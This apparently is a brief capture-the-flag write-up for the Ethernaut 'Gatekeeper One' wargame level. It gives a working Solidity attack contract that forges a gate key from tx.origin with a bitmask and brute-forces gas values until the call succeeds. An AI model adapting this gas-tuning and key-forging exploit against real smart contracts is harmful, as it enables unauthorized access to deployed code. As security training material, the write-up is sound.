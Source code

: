 # Level 13: [Gatekeeper One](https://ethernaut.openzeppelin.com/level/0x2a2497aE349bCA901Fea458370Bd7dDa594D1D69)

## Level objectives:
1. Make it past the gatekeeper, and register as an entrant.

## Analysis (lol)
- Bitwise operations.
- Type conversion stuff.

## Steps:
```sol
//SPDX-License-Identifier: MIT
pragma solidity ^0.8;

interface GatekeeperOne {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract AttackGatekeeperOne {
    function attack(address _victim) public {
        bytes8 key = bytes8(0x1111111100001111) & bytes8(uint64(uint160(tx.origin)));

        for (uint i=0; i < 300; i++) {
            (bool success, ) = _victim.call{gas: i + (8191 * 3)}(abi.encodeWithSignature("enter(bytes8)", key));
            if (success) break;
        }
    }
}
```
